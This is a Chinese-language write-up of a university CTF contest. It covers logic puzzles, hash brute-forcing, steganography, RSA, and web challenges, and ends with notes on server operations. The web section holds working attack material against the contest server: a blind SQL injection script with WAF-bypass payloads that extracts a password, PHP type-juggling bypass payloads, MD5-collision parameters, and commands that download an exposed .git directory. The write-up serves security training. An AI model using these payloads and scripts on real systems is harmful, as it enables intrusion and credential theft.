前言
2017年6月份，是校内的第一场CTF比赛，当时的情况是没有对外开放，完成比赛的成品度不是很好，今年的情况相对比较好一些，出题的时间上比较赶，所以只是为了培养一些CTF入门题目和常规逻辑推理随带一些脑洞的题目，基于这两点就会发现题目的偏向，base类题目考查数学推理、谬论和CTF套路，misc考查常规的图片隐写，WEB则是考查http的一些常规的操作，PHP的一些黑魔法和CTF常见的一些bypass绕过的一些知识。其余类的题目由于没有人来搞，所以就归到一类，让我师弟进行维护了。
Base题解
Base10

提示靠边停车和网页源代码，<!-- flag{Math_is_Here_$num$!} 数字竟然被小车车挡住了,num=md5(num)[:5]-->如果从图片中没有读到有用的信息，但是可以从这个源码可以看出很像BP爆破选中的参数，已经很明确了，就是推出小车挡住的数字的MD5值的前5位。考查思维发散，把图片倒过来就知道数字是87了。
Base201
2
3
4
5
6
7
8
9
10
11Tom 和 Bob 共同的朋友Jack生日快到了，他两想知道Jack的生日，但是他俩都不知道，但是Jack 给了他俩一个生日的列表,让他俩进行推算
May 15 May 16 May 19
June 17 June 18
July 14 July 16
August 14 August 15 August 17
Jack分别告诉了Tom月份，Bob日期
Tom： 我不知道Jack 的生日，我知道Bob也不知道。
Bob： 首先我也不知道Jack的生日，但是我知道日期。
Tom： 一开始我不知道，现在我知道Jack的生日了
Bob: 那我也知道了
flag{Th0_Jack_Birth_Is_月_日}
这道题算是纯的一道数学题了，本来是要考大家数学推理和谬论的但是发现一些人就是按ctf的解题套路了，直接爆破。
这里说一下数学推理的过程：
- 两个人分别知道了日期和月份，然后在谈话的过程中都知道了具体的生日
- 第一句话说：Tom： 我不知道Jack 的生日，我知道Bob也不知道。
首先可以排除19号 和18号如果是这两个日期，Bob就知道了Jack的生日了，进而可以排除5月和6月，因为Tom肯定的知道Bob是不知道Jack的生日的，如果是5月或者6月的话，就会出现18号和19号，Tom就不能肯定Bob知不知道Jack 的生日。 - 排除5月和6月之后，剩下7月和8月，相同的14号排除，如果出现15号或者是17号就不能确定jack的生日，只有是7月16号，可以唯一的确定jack的生日，他两最后都明确的知道了生日。
Base301
2
3
4
5
6:)内心有点小崩溃。
请计算1000000000以内3或5的倍数之和。
如：10以内这样的数有3,5,6,9，和是23
请提交flag{你的答案}
用c的long型或者python的xrange都可以跑出来具体的值。1
2
3
4
5
6
7#coding:utf-8
sum=0
for i in xrange(1,1000000000):
if i%3==0 or i%5==0:
sum=sum+i
print sum
#flag{233333333166666668}
Base401
2给你一串16进制让你玩玩
666c61677b4a7573745f743373745f683476335f66346e5f6861686168615f36363636217d
这道题就很简单了
直接16进制转ascii码就可以了
Base501
2
3题目：小明常用密码是hash 是5bc76f3f319865431dcab801bbce47a1 现在 他只知道明文密码的前四位是xjnu
中间是66****88 后三位是ctf 请帮他算出 明文密码是啥
flag{明文}
思路只要爆破四位然后整个串进行md5加密，最后进行比较就可以了，知道思路后，撸一个脚本就好了1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17#coding:utf-8
import hashlib
import string
hash='5bc76f3f319865431dcab801bbce47a1'
def md5_Eecode(str):
md=hashlib.md5()
md.update(str)
return md.hexdigest()
for x1 in string.ascii_letters:
for x2 in string.ascii_letters:
for x3 in string.ascii_lowercase:
for x4 in string.ascii_lowercase:
pwd = 'xjnu66'+x1+x2+x3+x4+'88ctf'
if md5_Eecode(pwd)==hash:
print pwd
break
Web题解
web10http://ctf.xjnu.edu.cn:9900/web10/简单的sql注入，使用sqlmap跑一下就可以了
web20
页面提示，你不属于这，修改一下xxf，页面提示没有登录，但是登录框什么的都没有，使用bp抓包，发现Cookie:login=0，修改一下
发现不是很可惜你不是iPhone OS 999，继续修改一下ua，Mozilla/5.0 (iPhone; CPU iPhone OS 999 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A403 Safari/8536.25 坑点就是需要一完整的iPhone的ua和变一下数字
参考hctf
web301
2http://ctf.xjnu.edu.cn:9900/web30/
小明shell下的编辑器用的比较6
考察文件备份和url的保留字和PHP的一些黑魔法1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
$get = $_GET['ctf'];
if ($get == '!#?&@') {
echo '<p> class="alert">Go on!</p>';
} else {
exit();
}
if (isset($_GET['password'])) {
if (ereg("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE) echo '<p class="alert">You password is error,must be test others</p>';
else if (strpos($_GET['password'], '--') !== FALSE){
$a = @$_GET['xjnu'];
$v1 = 0;
if (is_array($a)) {
is_numeric(@$a["bar1"]) ? die("No way!") : NULL;
if (@$a["bar1"]) {
($a["bar1"] > 2016) ? $v1 = 1 : NULL;
}
if (is_array(@$a["bar2"])) {
if (count($a["bar2"]) !== 3 or !is_array($a["bar2"][0])) die("No way!");
foreach ($a["bar2"] as $key => $val) {
if (preg_match('/2018/', $val)) {
die('No way!');
}
if ($val == 2018) {
die($flag);
}
}
}
}
}
else echo '<p class="alert">Invalid password</p>';
}
payload：php?ctf=%21%23%3F%26@&password=a%00--&xjnu[bar1]=2017e&xjnu[bar2][][]=xjnu&xjnu[bar2][]=1a&xjnu[bar2][]=2017.9999999999999999999999999999999999
Web40
出题有点问题，详细的思路看Web80
这里直接githack直接取出flag
Web50
题目提示注入密码，源代码提示<!-- password columns-->,目的很明确了，应该是直接把password字段里面的记录注入出来就可以了。
过滤的有点多，,详细判断一下过滤关键字，首先使用admin登录密码错误，发现是pass error，使用其他的用户名就会发现没有no such user，后面加空之类的关键字，发现是waf，常规的跑一下sql的字典，可以发现select、from、%0a、%0b、%a0、mid、substring等都过滤了，但是只是为了注入出密码应该会有好多种思路，比如left和正则payload：user=admin'/**/%26%26/**/left(password,1)='5'/**/%26%26/**/'1'='1&pwd=2121payload:user=admin'%09%26%26%09password%09regexp/**/'^57.*'%09%26%26%09'1'='1&pwd=1211
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23#coding:utf-8
import requests
import string
pwd_str=string.ascii_lowercase+"0123456789"
password=""
url="http://ctf.xjnu.edu.cn:9900/web50/"
for n in range(33):
for i in pwd_str:
username=r"admin'/**/&&/**/password/**/regexp/**/'^{0}.*'/**/&&/**/'1'='1".format(password+i)
# username="admin'%09%26%26%09password%09regexp/**/'^"+'5'+".*'%09'1'='1"
# print username
sql_payload={
'user':username,
'pwd':"121"
}
proxy={"http":'http://127.0.0.1:8080'}
# print sql_payload
res=requests.post(url,data=sql_payload)
# print res.text
if "error" in res.text:
password=password+i
print "[*Password]:",password
Web60
这一道题是上一届的原题，之前没有做出来，结果就继续修改了一下放了出来，主要考察的是渗透测试过程中，对目标站点的一个whois信息收集的技巧，和HOST头的虚拟站点的考察，首先需要进行HOST头域名和ip地址的绑定，然后测试发现，直接对edu.cn的域名进行whois是不会有数据的，那我们可以对ip地址进行whois，结果就能找到注册人的邮箱，之后就是ssrf进行探测，直接输入
可以发现是跳转到百度的，紧接着就应该想到php的file协议是否可以读文件，爆破一下可以应该可以知道，file小写被过滤，大写可以绕过进文件的读取，先读取index.php发现有一个flag_ssRf.php，读取此文件，查看源代码。主要考察file协议对大小写不敏感。
Web80
是校内赛结束之后放出来的一道题，主要是因为Web40，出题失误，导致的git复仇，首先看一下出题的思路1
2
3
4
5
6
7
8
9
10目录下先有index.php flag_Revenge_2333333.php flag.php
9608* git init
9609* git add .
9610* git commit -m "xjseck"
然后删除另外两个文件
9611* rm -rf flag_Revenge_2333333.php
9612* rm -rf flag.php
9613* git commit -m "remove something"
9614* git add .
解题思路让别人只能通过下载.git的所有文件，进行查看flag文件名称，进行访问，然后解题
然后把git目录可以进行列文件目录，所以如果直接使用githack脚本只能跑出一个index.php文件，什么都没有，所以之后下载.git所有文件，然后通过查看commit的操作才可以，操作如下1
2
3wget -r -nH -e html_extension=off --reject '*.html*' 'http://ctf.xjnu.edu.cn:9900/web80/.git/'
git log
git log --stat bcf528e

其实再难一些就是需要爆破一下，使用git cat-file -p 9ac836的操作发现flag文件，接着访问flag文件会发现，其实是一道强网杯的一道题，google MD5攻击的论文，直接给出payload好了1
2param1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
¶m2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
web100
主要考察php文件包含，只要你懂所包含的文件里面的内容有php格式和语法在就能够执行，这样来说你就会很简单的getshell，其实没有想考大家使用php的伪协议，zip和phar协议的。

misc题解
出题思路是想让大家把图片隐写类的题目进行一个操作步骤上的汇总，先使用什么后使用什么进行检测分析的一个过程和笔记。
- 拿到图片文件，strings 和文本文档开的一下图片ascii内容或者汉字等信息
- exiftool 查看图片属性 是否隐藏的有base64 和进制等信息。
- 上面无果之后使用 binwalk一下图片隐藏的文件.
- 使用stegsolve 查看图片通道,检查pngcheck 一下idat 数据块是否正常一般是查看png 和 bmp
- Stegdetect.exe -tjopi -s 100.0 *.jpg
- 如果主办方给的原题图片不能浏览，可以尝试改后缀名或者不要后缀名，让计算机自动识别（linux）。
- 十六进制手动查看，提取文件可以尝试保存文件为doc或者txt之类的或者不加后缀。
- 如果遇见pdf或者doc 的文件 ctrl+A选中所有字符，可能显示flag
- 如果有两张相似的图片可以使用XOR、ADD、SUB等操作，或者水印模糊的图片。
misc10
微博关注一下，然后私信，一些关键词flag、ctf、新疆师范大学等都能出flag
misc15
查看图片属性版权出flag,或者strings
misc20
图种，把另一张图片提取出来，出flag，考察图片文件头标识,binwalk也可以看出是两张图片
misc30
考察strings不行，我们可以记事本打开图片内容显示中文，后面就是翻一翻马哲的书了，2018版才可以

misc40
word文档其实就是一个zip文件，改后缀，打开出flag，还有就是隐藏的有字体，也是一个思路
misc50
一个wooyun的邮箱注册号图片，纪念一下而已，一道很简单的lsb隐写，使用stegsolve，选中lsb和bgr

或者使用zsteg

misc80
直接给了一个二维码，扫出来肯定什么都没有了，strings一下文件，发现后面一堆的数字，且都是0-7，应该可以肯定是8进制，拿

这么多串数字肯定不能手工了吧，简单的编写一个脚本1
2
3
4
5
6
7#coding:utf-8
encode_str="146154141147173110141166145137171060125137120171137163143162151160164137117164143137124157137124145156137101163143151151041175"
flag=""
for i in range(0,len(encode_str),3):
# flag+=int(encode_str[i:i+3],8)
print chr(int(str(encode_str[i:i+3]),8)),
print flag
Crypto30
师弟出的题
考点主要在脑洞 能否找齐rsa所需参数
可继续增加难度 加入注入 将一个参数放入数据库
查看源码发现hint

猜测这是道RSA题目
但是缺少e n
在源码中发现了这个link

猜测这是道RSA题目
但是缺少e n
在源码中发现了这个link

得到e=3
下载该图片 查看属性发现n

这里有坑点 虽然指数很低但是不能使用低指数攻击
接着常规解rsa即可得到flag

接着16进制转字符串即可
花絮
校内赛题目和平台筹建的时间比较匆忙，题目质量上算作入门还是可以的，期间的运维和维护还好没有出现很大的问题，都是使用docker进行构建的，主要出现的一个文件就是web100的apache日志文件能达到158G很是让我费解。


导致平台的mysql死掉
磁盘占满之后查看1
2
3
4
5
6
7
8none 181G 172G 0 100% /var/lib/docker/aufs/mnt/561abf9658d7ac2c51e41b63112cfea5b22394ab2b6558108b9bb84b749d1def
none 181G 172G 0 100% /var/lib/docker/aufs/mnt/0711d7896aff73e514d624aa920a9bb0be1a70837f7371ecb58b5cdc338ff6d0
none 181G 172G 0 100% /var/lib/docker/aufs/mnt/576fc7e57bbeff551954e7c4a2ba098dedbc88e08923affbec0b4eb258c4a4f5
none 181G 172G 0 100% /var/lib/docker/aufs/mnt/2d154c4b3b136505f6c47d4d14ccb87d508d43b5585d134a7dd06ff945ac8dba
会导致
* Stopping MySQL database server mysqld [ OK ]
* /etc/init.d/mysql: ERROR: The partition with /var/lib/mysql is too full!
启动不了
最后只能删除日志文件重启物理机。
很简单的一个php包含拿shell的思路，结果一些大佬直接就爆破，无限制的爆破，我就很蒙蔽。
运维也算是一个力气活，感觉比赛必须还是做成数据可视化的会比较好，下次应该会配置的完善一些加上elk、docker定时回滚。
另一方面感觉应该是被提权把docker日穿了，后面把日志down下来再做分析吧。:)ORZ多谢各位师傅手下留情，没有DDOS。说实话我们就一台服务器。

Powered by HyperComments